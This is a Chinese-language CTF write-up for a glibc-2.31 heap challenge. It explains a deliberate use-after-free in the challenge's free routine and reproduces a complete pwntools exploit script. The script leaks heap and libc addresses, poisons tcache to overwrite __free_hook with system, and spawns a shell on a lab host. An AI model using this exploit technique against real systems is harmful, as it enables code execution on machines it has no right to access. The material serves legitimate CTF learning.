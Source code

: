 # books_400

> 参考：HITCON 2019

题目是 glibc-2.31，IDA 似乎不能很好地反编译，所以就没脱符号表，如果用 Cutter 或者 Ghidra 就看得比较清楚。

原本的想法是 tcache stashing unlink attack，但因为没有限制 Chunk 的上限被非预期了。先讲一下几个点，首先不能用 Fastbins：

```cpp
    if (size <= 0x7F) {
        puts("How can a book be that short???");
        exit(-1);
    }
```

free 的时候给了个 UAF：

```cpp
void sell() {
    int idx;
    printf("This is your 1st/2nd/3rd book? ");
    idx = read_idx();
    if (!bs[idx].content) {
        puts("No way...");
        return;
    }
    free(bs[idx].content);
    // give an uaf
    //bs[idx].size = 0;
    //bs[idx].content = 0;
}
```

因为没限制上限所以可以利用 UAF 来改 tcache 的指针，直接就能改任意地址了，这里放一下 [@XxX（@n132）](https://n132.github.io/)的脚本：

```python
from pwn import *
context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def cmd(c):
    p.sendlineafter("ice: ",str(c))
def add(idx,size=0x80,c="A",r='n'):
    cmd(1)
    p.sendlineafter("? ",str(idx))
    p.sendlineafter("? ",str(size))
    p.sendafter(": ",c)
    p.sendlineafter("] ",str(r))
def free(idx):
    cmd(2)
    p.sendlineafter("? ",str(idx))
def edit(idx,c):
    cmd(3)
    p.sendlineafter("? ",str(idx))
    p.sendafter(": ",c)
def show(idx):
    cmd(4)
    p.sendlineafter("? ",str(idx))
def magic(c):
    cmd(0xDEADBEEF)
    p.readuntil(".\n")
    p.send(c)
p=remote("10.21.13.112",10004)
#p=process("./books")
p.sendafter("me? ",p64(0xdeadbeef))
add("1",0x233)
add("2",0x233)
free("1")
free("2")
show("2")
p.readuntil("ntent: ")
heap=u64(bytes(p.readline()[:-1]+b'\0\0'))-(0x5555555592d0-0x0000555555559000)
log.warning(hex(heap))
for x in range(4):
    add(1,0x233)
    free(1)
add(1,0x500)
add(2,0x100)
free(1)
show(1)
libc=ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
p.readuntil("ntent: ")
base=u64(bytes(p.readline()[:-1]+b'\0\0'))-(0x00007ffff7fbcbe0-0x7ffff7dd1000)
log.warning(hex(base))
add(2,0x500-0x240)
add(3,0x233)
free(3)
libc.address=base
edit(1,b"A"*(0x500-0x240+8)+p64(0x241)+p64(libc.sym['__free_hook']))
print(pidof(p))
raw_input()
magic(b"A")
magic(p64(libc.sym['system']))
add(1,0x100,"/bin/sh")
free(1)
p.interactive()
#zjgsuctf{4lway5_foll0w1ng_w1th_n3w_t3chs}
```

最后 cat 没给权限，要[用 awk 和 wc 来读 flag](http://blog.dornea.nu/2016/06/20/ringzer0-ctf-jail-escaping-bash/)。
